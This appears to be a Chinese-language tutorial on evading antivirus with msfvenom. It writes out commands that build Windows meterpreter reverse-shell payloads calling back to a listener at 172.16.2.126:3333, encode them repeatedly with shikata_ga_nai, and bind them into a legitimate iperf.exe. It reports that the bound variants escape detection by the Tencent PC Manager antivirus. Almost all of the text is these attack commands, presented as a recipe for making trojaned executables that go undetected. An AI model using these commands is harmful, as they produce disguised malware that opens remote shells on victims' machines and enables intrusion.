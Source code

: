 但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果。

```
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
```



原始的payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.2.126 LPORT=3333 -f exe -o test.exe
```

生成的文件信息：

```
root@thinkpad:~# file test.exe 
test.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```

在windows上运行，是可以被电脑管家查杀的。

使用encoder进行编码，再看看。

查看有哪些encoders。

```
msfvenom -l encoders
```



评级最高的两个encoder为cmd/powershell_base64和x86/shikata_ga_nai，其中x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器了。

我们就用shikata_ga_nai来编码一下。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.2.126 lport=3333 -e x86/shikata_ga_nai -i 15 -f exe -o test2.exe
```

由于shikata_ga_nai编码技术是多态的，也就是说每次生成的payload文件都不一样，有时生成的文件会被查杀，有时却不会。当然这个也和编码次数有一定关系，编码次数好像超过70次就经常生成出错，但是编码次数多并不代表免杀能力强。

这个放过来，也是马上就被电脑管家给发现并删除了。

在看看msf的自捆绑免杀。

我们找一个exe文件来做捆绑的对象。就找一个iperf.exe文件。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.2.126 lport=3333 -x iperf.exe -f exe -o test3.exe
```

这样捆绑后的文件，电脑管家就查不出来了。

还可以把自捆绑和编码结合起来。这样就更难被查杀了。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.2.126 lport=3333 -e x86/shikata_ga_nai -x iperf.exe -i 15 -f exe -o test4.exe
```
